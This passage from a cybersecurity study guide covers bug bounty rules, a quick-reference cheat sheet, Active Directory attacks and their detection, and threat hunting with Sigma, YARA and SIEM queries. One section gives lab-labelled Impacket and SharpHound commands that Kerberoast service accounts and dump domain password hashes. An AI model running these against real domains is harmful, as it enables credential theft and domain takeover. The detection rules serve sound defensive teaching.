| No social engineering | Unless explicitly in scope |
| Document everything | Screenshots, timestamps, request/response pairs |

### Bug Bounty Platforms

| Platform | Notes |
|----------|-------|
| HackerOne | Largest platform, many programs |
| Bugcrowd | Strong enterprise clients |
| Intigriti | European focus |
| Synack | Invite-only, vetted researchers |
| Google VRP | Direct vendor programs |

### Responsible Disclosure Timeline

```
Day 0:   Discover vulnerability
Day 0:   Submit report through proper channel
Day 1-3: Triage confirmation from vendor
Day 1-90: Vendor develops and deploys fix
Day 90+: Public disclosure (coordinate with vendor)
```

> **Never Forget:** Bug bounty is **not** a license to hack anything. No scope = no testing. Finding a bug outside scope still requires **responsible disclosure**, not exploitation.

---

# Part 13: Master Cheat Sheet + Quick Reference

## CIA Triad + AAA One-Liner

```
CIA: Confidentiality (encryption), Integrity (hashing), Availability (redundancy)
AAA: Authentication (who), Authorization (what), Accounting (audit log)
```

## Kill Chain Stages

```
Recon → Weaponize → Deliver → Exploit → Install → C2 → Actions
```

## MITRE ATT&CK — Top Tactics

```
Initial Access | Execution | Persistence | Priv Esc | Defense Evasion
Credential Access | Discovery | Lateral Movement | Collection | C2
Exfiltration | Impact
```

## Linux IR First Commands

```bash
# Run these first on a potentially compromised Linux host
last && lastb                    # Login history
w                                # Currently logged in
ps aux --forest                  # Process tree
ss -tulnp                        # Listening ports
ss -tan | grep ESTAB             # Active connections
find / -perm -4000 -type f 2>/dev/null  # SUID binaries
grep -i "accepted\|failed" /var/log/auth.log | tail -50
crontab -l; ls -la /etc/cron.*   # Scheduled tasks
```

## Network Quick Reference

| Port | Service | Security Note |
|------|---------|---------------|
| 22 | SSH | Key auth only, fail2ban |
| 25 | SMTP | User enumeration risk |
| 53 | DNS | Zone transfers, exfiltration |
| 80/443 | HTTP/S | Web app attacks |
| 445 | SMB | EternalBlue, enumeration |
| 3306 | MySQL | Default creds, no auth |
| 3389 | RDP | Brute force, BlueKeep |
| 8080 | HTTP-alt | Admin panels, proxies |

## OWASP Top 10 (2021) Mnemonic

```
A01 Broken Access Control
A02 Cryptographic Failures
A03 Injection
A04 Insecure Design
A05 Security Misconfiguration
A06 Vulnerable Components
A07 Auth Failures
A08 Data Integrity Failures
A09 Logging Failures
A10 SSRF
```

## Cryptography Quick Pick

| Use Case | Algorithm |
|----------|-----------|
| Password storage | bcrypt, Argon2 |
| File integrity | SHA-256 |
| Encryption at rest | AES-256-GCM |
| Key exchange | ECDHE, RSA |
| Digital signatures | Ed25519, RSA-4096 |
| TLS | TLS 1.3 only |
| Never use | MD5, SHA-1, DES, ECB mode |

## HTTP Security Headers Checklist

```
[ ] Strict-Transport-Security
[ ] Content-Security-Policy
[ ] X-Content-Type-Options: nosniff
[ ] X-Frame-Options: DENY
[ ] Referrer-Policy
[ ] Permissions-Policy
[ ] Cache-Control: no-store (for sensitive pages)
```

## AWS Security Checklist

```
[ ] Root account MFA enabled, no access keys
[ ] IAM users have MFA, least privilege
[ ] No long-unused access keys (rotate/delete)
[ ] S3 Block Public Access enabled account-wide
[ ] All S3 buckets encrypted
[ ] CloudTrail enabled all regions, log file validation on
[ ] GuardDuty enabled
[ ] Security groups: no 0.0.0.0/0 on SSH/RDP
[ ] VPC Flow Logs enabled
[ ] Config rules for compliance monitoring
```

## Incident Response Quick Steps

```
1. DETECT  — Alert or report received
2. TRIAGE  — Real incident or false positive?
3. CONTAIN — Isolate affected systems
4. ANALYZE — Scope, root cause, timeline
5. ERADICATE — Remove threat, patch vuln
6. RECOVER — Restore from clean backups
7. LEARN   — Post-incident review, update playbooks
```

## NIST CSF Functions

```
Identify → Protect → Detect → Respond → Recover
```

## NIST 800-53 Key Families

```
AC (Access Control)    AU (Audit)           IA (Identification/Auth)
SC (System/Comm Prot)  SI (System Integrity) IR (Incident Response)
CM (Config Management) RA (Risk Assessment)  CA (Assessment/Authorization)
```

## Pentest Phase Checklist

```
[ ] Signed SOW and ROE
[ ] Scope documented (in/out)
[ ] Emergency contact established
[ ] Recon (passive then active)
[ ] Scanning and enumeration
[ ] Vulnerability analysis
[ ] Exploitation (in scope)
[ ] Post-exploitation (in scope)
[ ] Evidence collected and secured
[ ] Findings documented with severity
[ ] Executive summary written
[ ] Technical report with remediation
[ ] Walkthrough meeting with client
[ ] Retest scheduled (if applicable)
```

## Certification Quick Pick

| Experience | Recommended |
|------------|-------------|
| 0–1 years | Security+ |
| 1–2 years | CySA+ or CEH |
| 2–3 years (offensive) | OSCP |
| 2–3 years (defensive) | GCIH |
| 3–5 years | CISSP, cloud cert |
| 5+ years | Specialization (GCFA, GWAPT, OSCE) |

## Essential Tools by Category

| Category | Tools |
|----------|-------|
| Scanning | nmap, masscan, nuclei |
| Web | Burp Suite, OWASP ZAP, ffuf, gobuster |
| Exploitation | Metasploit, searchsploit |
| OSINT | theHarvester, Amass, Shodan, crt.sh |
| SIEM | Splunk, Elastic, Sentinel |
| Forensics | Autopsy, Volatility, Wireshark |
| Cloud | ScoutSuite, Prowler, Steampipe |
| AD | BloodHound, Impacket, Rubeus |
| Passwords | hashcat, John the Ripper (authorized) |
| Network | tcpdump, Wireshark, Zeek |

## Severity Rating Guide

| Severity | CVSS Range | Response Time | Example |
|----------|-----------|---------------|---------|
| Critical | 9.0–10.0 | Immediate (hours) | RCE, domain admin compromise |
| High | 7.0–8.9 | 24–48 hours | SQLi with data access, SSRF to metadata |
| Medium | 4.0–6.9 | 1–2 weeks | Stored XSS, missing headers |
| Low | 0.1–3.9 | Next sprint | Version disclosure, verbose errors |
| Info | 0.0 | Best effort | Technology fingerprint |

## Legal Reminders

```
ALWAYS:
  - Get written authorization before testing
  - Stay within defined scope
  - Protect and encrypt findings
  - Report through proper channels
  - Document your actions

NEVER:
  - Test systems without authorization
  - Access or exfiltrate real user data
  - DoS/DDoS unless explicitly scoped
  - Share vulnerabilities publicly before vendor fix
  - Use skills for personal gain on unauthorized targets
```

---

---

# Part 14: Windows & Active Directory Security

Active Directory (AD) is the identity backbone of most enterprise Windows environments. Understanding AD architecture, Kerberos, and common attack paths is **mandatory** for red teamers, blue teamers, and incident responders in corporate and government settings.

---

## 14.1 AD Architecture Overview

### Core Components

| Component | Role | Security Relevance |
|-----------|------|-------------------|
| **Domain** | Security boundary sharing policies and admin model | Compromise of one domain does not automatically compromise another unless trust exists |
| **Forest** | Collection of domains sharing schema and global catalog | Forest root compromise affects entire forest |
| **Domain Controller (DC)** | Hosts AD database (NTDS.dit), authenticates users | Primary target; holds domain password hashes |
| **Global Catalog (GC)** | Partial replica of all objects in forest | Universal group membership lookups |
| **Organizational Unit (OU)** | Container for users, groups, computers | GPO application boundary |
| **Trust** | Authentication relationship between domains/forests | Attack path via trust keys or SID history |

### Domain, Forest, and Trust Relationships

```
Forest (corp.example.com)
├── Domain: corp.example.com (root)
│   ├── OU: Users
│   ├── OU: Servers
│   └── OU: Workstations
├── Domain: dev.corp.example.com (child domain)
│   └── Automatic parent-child trust
└── External trust → partner.example.com (optional)
```

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
graph TB
    subgraph Forest["Forest: corp.example.com"]
        DC1[Domain Controller]
        GC[Global Catalog]
        subgraph Domain["Domain"]
            Users[Users and Groups]
            Computers[Computer Accounts]
            GPO[Group Policy Objects]
        end
    end
    Trust[External Trust] --> Partner[partner.example.com]
    DC1 --> Users
    DC1 --> Computers
    GPO --> Computers
```
> **Never Forget:** A **child domain admin is NOT a forest admin** by default — but misconfigured trusts, ACLs, or AD CS can create escalation paths that bridge that gap.

### FSMO Roles and Security Impact

| FSMO Role | Holder | If Compromised |
|-----------|--------|----------------|
| Schema Master | One DC per forest | Malicious schema extensions |
| Domain Naming Master | One DC per forest | Unauthorized domain creation |
| RID Master | One DC per domain | RID pool exhaustion (DoS) |
| PDC Emulator | One DC per domain | Password sync target; time authority |
| Infrastructure Master | One DC per domain | Phantom object issues in multi-domain |

**Example:** An attacker with write access to the DC holding **PDC Emulator** can influence password replication timing and NTP — useful for Kerberos attacks when clock skew is manipulated in lab scenarios.

---

## 14.2 LDAP and Kerberos Overview

### LDAP (Lightweight Directory Access Protocol)

| Attribute | Example | Use in Security |
|-----------|---------|-----------------|
| `sAMAccountName` | `jsmith` | Logon name |
| `userPrincipalName` | `jsmith@corp.example.com` | Modern logon format |
| `memberOf` | `CN=Domain Admins,...` | Group membership enumeration |
| `servicePrincipalName` | `HTTP/web01.corp.example.com` | Kerberoasting target |
| `userAccountControl` | Flags (e.g., DONT_REQ_PREAUTH) | AS-REP roasting indicator |

LDAP runs on **TCP 389** (cleartext) and **636** (LDAPS). Never expose 389 to the internet.

### Kerberos Authentication Flow

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
sequenceDiagram
    participant C as Client
    participant KDC as KDC on DC
    participant S as Service
    C->>KDC: AS-REQ username plus encrypted timestamp
    KDC->>C: AS-REP TGT encrypted with krbtgt hash
    C->>KDC: TGS-REQ TGT plus SPN for service
    KDC->>C: TGS-REP service ticket
    C->>S: AP-REQ service ticket
    S->>C: AP-REP optional mutual auth
```

| Ticket | Encrypted With | Purpose |
|--------|----------------|---------|
| **TGT** (Ticket Granting Ticket) | `krbtgt` account NTLM hash | Proves identity to KDC; requests service tickets |
| **TGS** (Service Ticket) | Target service account hash | Access specific service (CIFS, HTTP, LDAP) |

> **Never Forget:** Kerberos is **time-sensitive**. Clock skew greater than 5 minutes causes authentication failures and can mask attack timelines if NTP is broken.

### Kerberos Encryption Types

| Etype | Value | Security Notes |
|-------|-------|----------------|
| RC4-HMAC | 0x17 | Legacy; Kerberoasting target; disable where possible |
| AES128 | 0x11 | Preferred for modern domains |
| AES256 | 0x12 | Preferred for modern domains |

**Detection example:** A stream of Event 4769 records showing RC4 for accounts that normally use AES may indicate Kerberoasting or downgrade attacks.

---

## 14.3 Credential Attacks: Overview and Detection

### Golden Ticket

| Aspect | Detail |
|--------|--------|
| **What** | Forged TGT using the `krbtgt` account NTLM hash |
| **Requirement** | Domain Admin or NTDS.dit dump with krbtgt hash |
| **Impact** | Persistent domain access; impersonate any user; configurable TGT lifetime |
| **Detection** | TGT lifetime anomalies; TGT without preceding AS-REQ; Event 4768 with unusual encryption types |

### Silver Ticket

| Aspect | Detail |
|--------|--------|
| **What** | Forged TGS for a specific service without KDC involvement |
| **Requirement** | Service account NTLM hash (e.g., CIFS on file server) |
| **Impact** | Access to that service only; no DC logs for TGS issuance |
| **Detection** | Service access without matching 4769 on DC; PAC validation failures if enabled |

### Pass-the-Hash (PtH)

| Aspect | Detail |
|--------|--------|
| **What** | Authenticate using NTLM hash without cracking password |
| **Requirement** | Captured hash (LSASS dump, SAM, NTDS) |
| **Impact** | Lateral movement as that user |
| **Detection** | Event 4624 Logon Type 3 with NTLM; same hash from multiple hosts |

### Kerberoasting

| Aspect | Detail |
|--------|--------|
| **What** | Request TGS for SPNs tied to user accounts; crack offline |
| **Requirement** | Any domain user can request service tickets |
| **Impact** | Service account password compromise, often high privilege |
| **Detection** | Event 4769 with RC4 encryption (0x17); high volume TGS requests |

### Attack Comparison Table

| Attack | Ticket/Hash | KDC Logs? | Persistence | Mitigation Priority |
|--------|-------------|-----------|-------------|---------------------|
| Golden Ticket | krbtgt hash | Partial (anomalies) | Extreme | Rotate krbtgt 2x after compromise |
| Silver Ticket | Service hash | No TGS event | Service-scoped | gMSA, strong service passwords |
| Pass-the-Hash | User NTLM | Yes (4624) | Until password change | Credential Guard, LAPS |
| Kerberoasting | TGS offline crack | Yes (4769) | Until password change | gMSA, long random passwords |

> **Never Forget:** After domain compromise, **rotate the krbtgt password twice** (once invalidates current, second invalidates previous). One rotation is not enough.

### AS-REP Roasting

| Aspect | Detail |
|--------|--------|
| **What** | Request AS-REP for accounts with pre-authentication disabled |
| **Requirement** | `DONT_REQ_PREAUTH` flag on account |
| **Impact** | Offline crack of user password hash |
| **Detection** | Event 4768 with Result Code 0x0 and no prior 4771 |

**Lab enumeration (authorized only):**

```powershell
# Find AS-REP roastable accounts — LAB ONLY
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

---

## 14.4 Windows Security Event IDs

| Event ID | Name | What to Look For |
|----------|------|------------------|
| **4624** | Successful logon | Type 3 NTLM from unusual source; Type 10 RDP to DC |
| **4625** | Failed logon | Password spray (many users, one source) |
| **4672** | Special privileges assigned | SeDebugPrivilege on non-admin workstation |
| **4768** | Kerberos TGT requested | RC4 for modern accounts; pre-auth disabled accounts |
| **4769** | Kerberos service ticket requested | RC4 (0x17) tickets; spike from one user |
| **4776** | NTLM credential validation | PtH indicators; validation without matching 4624 |

### Logon Types Reference

| Type | Name | Typical Source |
|------|------|----------------|
| 2 | Interactive | Console logon |
| 3 | Network | SMB, WMI, PsExec |
| 7 | Unlock | Workstation unlock |
| 10 | RemoteInteractive | RDP |
| 11 | CachedInteractive | Cached creds, no DC contact |

### Example Kerberoasting Detection Logic

```
Event 4769
WHERE TicketEncryptionType = 0x17 (RC4-HMAC)
AND ServiceName != krbtgt
GROUP BY AccountName
HAVING count > 5 in 1 hour
```

### Sigma Rule Example (4769 Kerberoasting)

```yaml
title: Kerberoasting - Multiple RC4 TGS Requests
status: experimental
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'
    filter:
        ServiceName|contains: 'krbtgt'
    condition: selection and not filter
    timeframe: 1h
falsepositives:
    - Legacy applications requiring RC4
level: high
```

> **Never Forget:** Event **4672** alone is not malicious — it fires whenever special privileges are assigned. Correlate with account, host, and preceding authentication events.

---

## 14.5 BloodHound and Impacket (Authorized Lab Only)

> **Authorization required.** Use only in lab environments you own: GOAD, DetectionLab, or explicit pentest scope.

### BloodHound

| Feature | Purpose |
|---------|---------|
| **SharpHound collector** | Gathers AD data (sessions, ACLs, groups) |
| **Neo4j graph database** | Stores relationships |
| **BloodHound GUI** | Visualizes attack paths to Domain Admins |

| Query | Finds |
|-------|-------|
| Shortest Paths to Domain Admins | Privilege escalation routes |
| Kerberoastable Users | Accounts with SPNs set |
| AS-REP Roastable | Accounts without pre-auth |
| Unconstrained Delegation | Dangerous delegation configs |

### Common ACL Abuse Paths

| ACL Right | Target | Impact |
|-----------|--------|--------|
| GenericAll | User | Reset password, shadow credentials |
| GenericWrite | Group | Add self to group |
| WriteDACL | OU | Grant self GenericAll |
| ForceChangePassword | User | Take over account |
| AddMember | Group | Add compromised user to privileged group |

### Impacket Toolkit Overview

| Tool | Function | Lab Use |
|------|----------|---------|
| `secretsdump.py` | Extract hashes from SAM/NTDS | Post-compromise hash extraction |
| `psexec.py` | Remote execution via SMB | Lateral movement testing |
| `GetUserSPNs.py` | Kerberoasting | SPN enumeration plus TGS request |
| `ntlmrelayx.py` | NTLM relay attacks | Relay lab with Responder |
| `lookupsid.py` | SID enumeration | User/group discovery |

```bash
# LAB ONLY — authorized AD lab
GetUserSPNs.py corp.example.com/jsmith:Password123 -request -outputfile hashes.txt
.\SharpHound.exe -c All --domain corp.example.com
secretsdump.py corp.example.com/admin@DC01 -just-dc-ntlm
```

> **Never Forget:** Running Impacket against production AD **without written authorization** is a felony under CFAA and equivalent laws. Lab first. Always.

---

## 14.6 Group Policy Security

| Risk | Mechanism | Mitigation |
|------|-----------|------------|
| **GPO modification** | Weak ACLs on GPO objects | Restrict write access to GPOs |
| **Logon script injection** | Attacker edits GPO script | GPO change auditing |
| **Scheduled tasks via GPO** | Persistence mechanism | Monitor Events 5136, 5137 |
| **Weak GPO filtering** | GPO applies to unintended OUs | Test GPO scope in lab |

### GPO Hardening Checklist

1. Audit who can edit each GPO (ACL review via BloodHound or PowerShell)
2. Enable GPO change logging (Advanced Audit Policy)
3. Separate user GPOs from computer GPOs logically
4. Disable legacy logon scripts where possible
5. Verify no **GPP cpassword** (MS14-025) remains in SYSVOL

### GPO Monitoring Events

| Event ID | Meaning |
|----------|---------|
| 5136 | Directory service object modified (GPO link change) |
| 5137 | Directory service object created |
| 5139 | Directory service object moved |
| 5141 | Directory service object deleted |

**Example PowerShell audit:**

```powershell
Get-GPO -All | ForEach-Object {
    [PSCustomObject]@{
        Name = $_.DisplayName
        Id   = $_.Id
        Modified = $_.ModificationTime
    }
}
```

---

## 14.7 LAPS and Tiered Administration

### LAPS (Local Administrator Password Solution)

| Feature | Benefit |
|---------|---------|
| Unique local admin password per machine | Stops lateral movement via shared local admin |
| Password stored in AD (encrypted) | Central management |
| Automatic rotation | Limits window of compromise |

| LAPS Attribute | Purpose |
|----------------|---------|
| `ms-Mcs-AdmPwd` | Current password (readable by authorized admins) |
| `ms-Mcs-AdmPwdExpirationTime` | When password rotates |

> **Never Forget:** LAPS protects **local** admin accounts. It does **not** replace domain password hygiene or tiered admin for domain accounts.

### Tiered Administration Model

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
graph TD
    T0[Tier 0 - Domain Admins DCs PKI] --> T1[Tier 1 - Server Admins]
    T1 --> T2[Tier 2 - Workstation Admins Helpdesk]
    T0 -.->|NO logon to| T2
    T0 -.->|NO logon to| T1
    T1 -.->|NO logon to| T2
```

| Tier | Assets | Admin Accounts | Rules |
|------|--------|----------------|-------|
| **Tier 0** | DCs, CA, ADFS, Azure AD Connect | `T0-*` accounts | PAW only; no internet browsing |
| **Tier 1** | Member servers, apps | `T1-*` accounts | No logon to Tier 2 workstations |
| **Tier 2** | Workstations, user support | `T2-*` accounts | No admin on Tier 0/1 assets |

### Privileged Access Workstation (PAW)

| PAW Requirement | Rationale |
|-----------------|-----------|
| Dedicated hardware | No shared browsing history or malware from daily use |
| No email/web on PAW | Reduce phishing surface for Tier 0 creds |
| Jump server isolation | Single controlled path to Tier 0/1 |

---

## 14.8 PowerShell Remoting and WinRM Security

| Component | Default | Hardening |
|-----------|---------|-----------|
| **WinRM** | HTTP 5985, HTTPS 5986 | Prefer HTTPS; restrict by firewall |
| **PS Remoting** | Uses WinRM | Just Enough Administration (JEA) |
| **TrustedHosts** | Wildcard risk | Explicit host list only in lab |

### WinRM Detection Indicators

| Indicator | Event / Artifact |
|-----------|------------------|
| PS Remoting session | Event 4688 powershell with EncodedCommand |
| WinRM connection | Event 91 WinRM operational log |
| Lateral movement | 4624 Type 3 plus 4648 to port 5985/5986 |

### JEA (Just Enough Administration)

| Concept | Description |
|---------|-------------|
| Role Capability | Defines allowed cmdlets/parameters |
| Session Configuration | Endpoint users connect to |
| Transcription | Full session logging for audit |

```powershell
# Example JEA role capability fragment — lab template
@{
    GUID = '00000000-0000-0000-0000-000000000001'
    ModuleVersion = '1.0.0'
    VisibleCmdlets = @(
        @{ Name = 'Get-Service'; Parameters = @{ Name = 'Name'; ValidateSet = 'w3svc','W32Time' } }
    )
}
```

> **Never Forget:** **Constrained Language Mode** and **AMSI** are not silver bullets. Assume skilled attackers have bypass techniques — layer with logging and network segmentation.

---

## 14.9 Case Study: Domain Compromise Investigation Walkthrough

### Scenario

**Monday 09:15** — SOC alert: Multiple Event 4769 with RC4 encryption from user `svc_backup`. Ten minutes later, Event 4672 on DC01 for account `corp\admin_jdoe` (not a known Domain Admin).

### Phase 1: Triage

| Step | Action | Finding |
|------|--------|---------|
| 1 | Validate alert | 47 TGS requests in 12 minutes for unique SPNs |
| 2 | Check svc_backup account | SPN set on 12 services; password last set 2019 |
| 3 | Timeline 4768/4769 for admin_jdoe | TGT at 09:22; no prior logon from known workstations |
| 4 | Check 4624 Type 3 | Workstation WS-447 to DC01 SMB at 09:25 |

### Phase 2: Containment

```
1. Disabled svc_backup account
2. Reset admin_jdoe password; revoked sessions
3. Isolated WS-447 via EDR
4. Snapshot DC01 for forensic image
5. Blocked suspicious external IP at perimeter
```

### Phase 3: Attack Chain

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    A[Phishing on WS-447] --> B[Credential theft]
    B --> C[Domain user access]
    C --> D[Kerberoasting svc_backup]
    D --> E[Cracked weak password offline]
    E --> F[svc_backup admin on backup servers]
    F --> G[Credential dump on backup server]
    G --> H[admin_jdoe hash PtH]
    H --> I[Attempted DA path detected]
```

### Phase 4: Eradication

| Action | Rationale |
|--------|-----------|
| Reset all SPN account passwords | Kerberoastable surface |
| Deploy gMSA for critical services | Eliminate static passwords |
| Rotate krbtgt twice | Precaution per best practice |
| Implement tiered admin | Reduce single-tier admin risk |
| Accelerate LAPS rollout | Prevent local admin reuse |

### Lessons Learned

| Gap | Remediation |
|-----|-------------|
| No 4769 alerting | Sigma rule deployed to SIEM |
| Service password age 5+ years | Quarterly SPN account review |
| admin_jdoe in Backup Operators | BloodHound ACL path audit |
| No Credential Guard on WS-447 | Device Guard pilot |

> **Never Forget:** Domain compromise investigations **start with timelines**, not tooling. Build the story from logs first, then validate with disk and memory artifacts.

---

## 14.10 AD Certificate Services and Delegation

### AD CS Misconfiguration Overview

| Misconfig | Impact |
|-----------|--------|
| ESC1 — No manager approval + client auth | Domain escalation via crafted cert |
| ESC8 — NTLM relay to HTTP enrollment | DC compromise path |
| Vulnerable certificate templates | Template allows SAN impersonation |

> **Never Forget:** AD Certificate Services misconfigurations are a **top-tier escalation path** in modern internal assessments — audit templates after every PKI change.

### Delegation Types

| Type | Risk Level | Description |
|------|------------|-----------|
| Unconstrained | Critical | Service can impersonate any user to any service |
| Constrained | Medium | Limited to specified SPNs |
| Resource-Based Constrained (RBCD) | Medium-High | Misconfigured ACLs allow impersonation abuse |

### AD Hardening Quick Reference

| Control | Implementation |
|---------|----------------|
| Protected Users group | Credential theft resistance for Tier 0 |
| gMSA for services | Eliminate Kerberoastable user SPNs |
| AdminSDHolder monitoring | Detect ACL changes on privileged groups |
| SID Filtering on trusts | Block SID history attacks |
| LDAP signing required | Prevent LDAP relay |

### Event Correlation Example: PtH Chain

| Time | Event | Host | Interpretation |
|------|-------|------|----------------|
| 14:01:02 | 4624 Type 3 NTLM | WS-12 | Network logon to file server |
| 14:01:05 | 4776 NTLM validation | DC01 | Hash validated for user jsmith |
| 14:01:08 | 4624 Type 3 NTLM | SRV-DB | Same user from WS-12 to DB server |
| 14:01:12 | 4672 SeDebugPrivilege | SRV-DB | Privilege escalation on database host |

**Correlation rule:** Same Account + NTLM + multiple hosts within 5 minutes + no prior interactive logon = investigate for PtH.

---

## 14.11 Part 14 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Deploy GOAD or DetectionLab | Functional AD attack lab |
| 2 | Run SharpHound; find path to DA | Understand ACL abuse |
| 3 | Kerberoast in lab; write Sigma for 4769 | Detection engineering |
| 4 | Configure LAPS on 3 lab VMs | Operational hardening |
| 5 | Map tiered admin model on paper | Architecture design |
| 6 | Trace Kerberos flow with Wireshark in lab | Protocol understanding |
| 7 | Simulate PtH; detect via 4624/4776 | Blue team correlation |

---


# Part 15: Threat Hunting & Threat Intelligence

Threat hunting is **proactive** — you assume compromise and search for evidence adversaries left behind. Threat intelligence (TI) feeds hypotheses with context about who, why, and how.

---

## 15.1 The Threat Hunting Loop

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    H[Hypothesis] --> D[Data Collection]
    D --> A[Analysis]
    A --> D2[Dissemination]
    D2 --> H2[New Hypothesis]
    A --> I[Incident Response]
```

| Phase | Activity | Output |
|-------|----------|--------|
| **Hypothesis** | "APT29 may use scheduled tasks for persistence on servers" | Hunt charter document |
| **Data Collection** | Pull Sysmon, Windows Security, EDR telemetry | Normalized dataset |
| **Analysis** | Run queries; pivot on anomalies | Findings with confidence level |
| **Dissemination** | Report to SOC; create detection rules | Sigma/YARA/SIEM content |
| **Feedback** | IR validates; intel updates TTP library | Improved next hunt |

> **Never Forget:** Hunting without a **hypothesis** is log searching. Hunting without **data** is guessing. Both waste time.

### Hunt Maturity Levels

| Level | Description | Example |
|-------|-------------|---------|
| 0 | Reactive alerts only | SOC closes tickets |
| 1 | IOC-driven hunts | Search for known bad hashes |
| 2 | TTP-driven hunts | Hunt for LSASS access patterns |
| 3 | Hypothesis from intel | Hunt based on sector-specific APT report |
| 4 | Continuous automated hunting | Scheduled queries with ML baselines |

---

## 15.2 MITRE ATT&CK Mapping

| Tactic | Example Technique | Hunt Question |
|--------|-------------------|---------------|
| Initial Access | T1566 Phishing | Unusual macro execution from email attachments? |
| Execution | T1059 PowerShell | Encoded commands from non-admin users? |
| Persistence | T1053 Scheduled Task | Tasks created outside change windows? |
| Privilege Escalation | T1068 Exploitation | New local admin group changes? |
| Defense Evasion | T1070 Log Clearing | Event 1102 on multiple hosts? |
| Credential Access | T1003 LSASS | Process access to lsass.exe? |
| Discovery | T1087 Account Discovery | net.exe / enum from workstations? |
| Lateral Movement | T1021 RDP/SMB | RDP to servers from user workstations? |
| Collection | T1560 Archive | Large 7z/rar creation on file servers? |
| Exfiltration | T1048 Alternative Protocol | DNS TXT volume spikes? |

**Example hunt charter mapping:**

```
Hypothesis: FIN7-style phishing leads to Cobalt Strike within 48 hours
ATT&CK: T1566.001 → T1059.001 → T1071.001 → T1055
Data sources: Email gateway, Sysmon EID 1/3, Proxy, EDR
Success criteria: Identify beaconing or C2 before exfiltration stage
```

> **Never Forget:** Map every hunt to **ATT&CK techniques**, not just malware names. Malware changes; TTPs persist longer.

---

## 15.3 IOC vs IOA vs TTP

| Concept | Definition | Lifespan | Example |
|---------|------------|----------|---------|
| **IOC** (Indicator of Compromise) | Artifact proving compromise | Short (hours–days) | MD5 hash, C2 IP, malicious domain |
| **IOA** (Indicator of Attack) | Observable attacker behavior | Medium | LSASS access, unusual parent-child process |
| **TTP** (Tactics, Techniques, Procedures) | How adversary operates | Long (months–years) | Spearphish → macro → PS download → C2 |

### Comparison Table for Hunters

| Use IOC When | Use IOA/TTP When |
|--------------|------------------|
| Blocking known bad at perimeter | Building durable detections |
| Retroactive sweep after intel drop | Proactive hunts |
| Sharing with ISAC quickly | Training junior analysts |
| Low false positive tolerance needed | Attacker rotates infrastructure |

**Example:**

| Type | Value |
|------|-------|
| IOC | `185.234.72.16` (C2 IP — ephemeral) |
| IOA | `powershell.exe -enc` spawned by `winword.exe` |
| TTP | T1566.001 → T1059.001 (phishing attachment → PowerShell) |

---

## 15.4 STIX, TAXII, and MISP

### STIX (Structured Threat Information Expression)

| STIX Object | Purpose |
|-------------|---------|
| Indicator | Observable pattern (hash, domain) |
| Malware | Malware family description |
| Attack Pattern | Maps to ATT&CK |
| Threat Actor | Attribution entity |
| Campaign | Coordinated activity |
| Relationship | Links objects (e.g., uses, indicates) |

### TAXII (Trusted Automated Exchange of Indicator Information)

| Service | Function |
|---------|----------|
| Discovery | Find available collections |
| Collection Management | List/update collections |
| Poll | Pull indicators on schedule |
| Inbox | Push indicators to server |

### MISP (Malware Information Sharing Platform)

| Feature | Benefit |
|---------|---------|
| Event sharing | Community intel distribution |
| Galaxy clusters | ATT&CK, ransomware groups |
| Correlation | Automatic link between events |
| Export formats | STIX, CSV, Snort, Suricata |

```json
{
  "type": "indicator",
  "spec_version": "2.1",
  "pattern": "[file:hashes.MD5 = 'd41d8cd98f00b204e9800998ecf8427e']",
  "valid_from": "2026-01-01T00:00:00Z",
  "labels": ["malicious-activity"]
}
```

> **Never Forget:** Intel feeds are **noisy**. Tune confidence scores and expiration — stale IOCs cause alert fatigue and block legitimate traffic.

---

## 15.5 YARA, Sigma, and SIEM Hunting

### Tool Roles

| Tool | Layer | Output |
|------|-------|--------|
| **YARA** | File/memory pattern matching | Rules for scanners, sandboxes |
| **Sigma** | Generic log detection language | Converted to Splunk, Elastic, etc. |
| **Splunk/Elastic** | Query execution at scale | Hunt results, dashboards |

### YARA Rule Example

```yara
rule CobaltStrike_Beacon_Config {
    meta:
        description = "Detects Cobalt Strike beacon configuration patterns"
        author = "hunt-team"
        severity = "high"
    strings:
        $config = { 2E 2F 2E 2F 2E 2C 00 00 00 00 00 00 00 00 }
        $pipe = "MSSE-" ascii wide
    condition:
        uint16(0) == 0x5A4D and any of them
}
```

### Sigma to SIEM Pipeline

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    S[Sigma Rule] --> P[sigma-cli convert]
    P --> SPL[Splunk SPL]
    P --> ES[Elastic Query]
    P --> KQL[Sentinel KQL]
    SPL --> SIEM[Production SIEM]
```

---

## 15.6 Five Full Hunt Query Examples

### Hunt 1: LSASS Memory Access (Splunk)

**Hypothesis:** Credential dumping via handle to lsass.exe

```spl
index=wineventlog source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=10 TargetImage="*\lsass.exe"
| stats count by SourceImage, SourceUser, Computer, GrantedAccess
| where count >= 1
| lookup allowed_lsass_access SourceImage OUTPUT allowed
| where isnull(allowed)
| table _time, Computer, SourceImage, SourceUser, GrantedAccess
```

### Hunt 2: Encoded PowerShell from Office (Elastic EQL)

**Hypothesis:** Macro-less or macro-enabled document launches obfuscated PowerShell

```
sequence by host.name, process.parent.name
  [process where event.type == "start" and process.name == "winword.exe"]
  [process where event.type == "start" and process.name == "powershell.exe"
   and process.command_line : ("*-enc*" or "*EncodedCommand*")]
```

### Hunt 3: Unusual Kerberoasting Volume (Splunk)

**Hypothesis:** Single user requesting many RC4 service tickets

```spl
